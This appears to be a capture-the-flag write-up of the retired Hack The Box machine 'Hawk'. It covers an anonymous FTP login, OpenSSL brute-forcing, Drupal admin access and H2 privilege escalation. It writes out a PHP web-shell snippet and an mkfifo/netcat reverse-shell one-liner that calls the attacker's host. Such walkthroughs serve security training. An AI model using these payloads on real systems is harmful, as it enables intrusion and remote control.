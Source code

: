 ```yaml
---
title: Hawk Hackthebox Writeup
date: 2021-03-01 11:00:00 +0530
categories: [Hackthebox, Retired]
tags: [linux,h2 exploit,drupal,ftp anonymous,php filter module]     # TAG names should always be lowercase
image: /assets/img/hawk-hackthebox/hawk-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Hawk:~$


Column | Details
------------ | -------------
Name | Hawk
IP | 10.10.10.102
Points | 30
Os | Linux
Difficult | Medium
Creator | [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570)
Out on | 14th July 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Decrypting a file found by logging into `ftp` using *anonymous*:*anonymous*.
* Logging into the `drupal` cms.
* Getting reverse shell using the `php filter` module.
* Escalating privileges using `h2` exploit.

# Starting:~$

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Download link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/hawk-hackthebox/nmap-automator-1.png)

Full port scan using `nmap`: *nmap -p- -T4 -Pn -sV 10.10.10.102*

___
![](/assets/img/hawk-hackthebox/nmap-scan-1.png)

Let's check `Port 80`.

___
![](/assets/img/hawk-hackthebox/port-80-2.png)

It's a `drupal` webiste, let's check **/robots.txt**.

___
![](/assets/img/hawk-hackthebox/robots-txt-3.png)

I further accessed `http://10.10.10.102/CHANGELOG.txt` and found *drupal version* i.e. `Drupal 7.58`.

___
![](/assets/img/hawk-hackthebox/version-exposed-drupal-4.png)

I found an [exploit](https://www.exploit-db.com/exploits/44542) when googled the version vulnerabilities.

___
![](/assets/img/hawk-hackthebox/drupalexploitdb-5.png)

But it requires authentication of the user for that, let's check default credentials first on the login page. It didn't work.

`Port 21` is also open, let's try to login anonymously i.e. `anonymous`:`anonymous`.

___
![](/assets/img/hawk-hackthebox/ftp-anonymous-login-6.png)

We found a file in the directory, let's downloading it using the `get` command.

___
![](/assets/img/hawk-hackthebox/got-afile-7.png)

I opened the file and it looked like this:

___
![](/assets/img/hawk-hackthebox/opening-the-file-8.png)

As we know it's encrypted I ran `file` command on it to check for more details.

___
![](/assets/img/hawk-hackthebox/file-category-8.png)

It's a `openssl` and `base64` encrypted.

Let's decode it with base64 first.

**Command**: `cat .drupal.txt.enc | base64 --decode > drupal.txt.enc.decoded`

Now let's bruteforce the openssl file.

**Command**: *sudo apt-get install bruteforce-salted-openssl*

**Command**: *bruteforce-salted-openssl -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We were unable to find the password but it showed that `sha` is `256`.

___
![](/assets/img/hawk-hackthebox/ssl-brute-force-error-9.png)

Improvising the **command**: *bruteforce-salted-openssl -d sha256 -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We found the password as `friends`.

___
![](/assets/img/hawk-hackthebox/got-password-10.png)

Decoding the file

**Command**: *openssl aes-256-cbc -d -in drupal.txt.enc.decoded -out drupal.txt*

The digest is `SHA256` and cipher used is `AES-256-CBC` because that’s the default cipher that the program uses if it’s not specified

![](/assets/img/hawk-hackthebox/decoding-file-11.png)

We got a username and password as `Daniel`:`PencilKeyboardScanner123`.

___
![](/assets/img/hawk-hackthebox/got-new-username-password-12.png)

Let's try to login on the website using the above found credentials.

___
![](/assets/img/hawk-hackthebox/error-screenshot-13.png)

It threw me an error saying `invalid` credentials.

Let's try `admin`:`PencilKeyboardScanner123`. Successfully logged in.

___
![](/assets/img/hawk-hackthebox/loggedin-14.png)

Now in the `module` section turn on the `PHP filter`.

___
![](/assets/img/hawk-hackthebox/turn-on-php-filter-15.png)

Add a new content and add the following in the body --> `<?php system($_GET['cmd']); ?>`. Make sure to save the file with php.

___
![](/assets/img/hawk-hackthebox/add-php-content-16.png)

Accessing *http://10.10.10.102/node/1?cmd=whoami*, we got `www-data`.

___
![](/assets/img/hawk-hackthebox/command-execution-17.png)

Now let's go for the reverse shell, I used BurpSuite for it.

Check this for the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat)

**Payload Used**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 4242 >/tmp/f*

___
![](/assets/img/hawk-hackthebox/got-shell-18.png)

Got `User` Flag.

Let's send `LinEnum.sh` for escalating privileges.

**Hosting Command**: *python3 -m http.server 8081*

**wget command**: *wget http://10.10.X.X:8081/LinEnum.sh*

Ran LinEnum.sh after giving executing permissions using *chmod +x LinEnum.sh* and found this

___
![](/assets/img/hawk-hackthebox/linenum-result-19.png)

As we know `Port 8082` is running **H2 Database**, and it only allows connections locally.

___
![](/assets/img/hawk-hackthebox/port-8082-20.png)

I search for some exploits and found [this](https://www.exploit-db.com/exploits/45506)

Downloading the exploit to our victim machine using wget, and executing it we got `Root`.

____
![](/assets/img/hawk-hackthebox/got-root-21.png)

